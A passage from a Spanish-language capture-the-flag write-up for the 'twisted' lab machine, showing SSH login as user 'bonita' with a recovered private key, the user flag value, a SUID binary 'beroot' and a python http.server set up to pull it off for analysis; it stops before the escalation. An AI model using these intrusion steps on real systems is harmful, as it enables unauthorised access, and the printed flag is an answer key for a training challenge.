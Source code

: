 Vamos a probar a meternos con el usuario `bonita` mediante esta `id_rsa`:

```shell
nano id_rsa

#Dentro del nano
<ID_RSA_BONITA>
```

Lo guardamos y establecemos los permisos necesarios para que nos podamos conectar:

```shell
chmod 600 id_rsa
```

Ahora si nos conectamos:

```shell
ssh -i id_rsa bonita@<IP> -p 2222
```

Info:

```
Linux twisted 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
bonita@twisted:~$ whoami
bonita
```

Veremos que estaremos dentro con dicho usuario, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVblackcat
```

## Escalate Privileges

Si listamos la `home` de dicho usuario, veremos un binario con permisos `SUID`:

```
-rwsrws--- 1 root   bonita 16864 Oct 14  2020 beroot
```

Vamos a ver que contiene por dentro con la herramienta de `ghidra`, primero nos pasaremos el binario con un servidor de `python3` de la siguiente forma:

```shell
python3 -m http.server
```

Ahora desde nuestro `host` haremos lo siguiente:
